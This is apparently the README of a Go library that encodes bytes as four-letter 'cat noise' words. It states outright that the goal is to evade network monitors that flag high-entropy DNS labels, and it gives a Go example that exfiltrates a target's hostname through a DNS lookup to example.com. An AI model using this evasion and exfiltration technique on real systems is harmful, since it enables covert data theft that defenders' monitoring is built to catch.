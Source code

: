 FourLetter [![GoDoc](https://godoc.org/github.com/magisterquis/fourletter?status.svg)](https://godoc.org/github.com/magisterquis/fourletter)
==========
Encode arbitrary bytes into four-letter words (or cat noises).

Some tools which watch network traffic look for high-entropy DNS labels.  This
is meant to get around that by encoding arbitrary bytes to a series of
four-letter (really four-byte) words.

For example, `ls -lart` turns into `meowmewwpurrmrowmewwmeowmewwmrowmeowmeowpurrmeowmrowmewwpurrmeowmeowmewwpurrmrowmrowmeowpurrmrowpurrmeowmewwmrowmeowmrowmewwmrow` using the default encoding.

Other, non-cat-noise words may be used.

Example
-------
Exfil of the target's hostname via DNS:
```go
h, err := os.Hostname()
if nil != err {
        panic(err)
}
net.Lookup(DefaultEncoding.EncodeToString(h) + ".example.com")
```
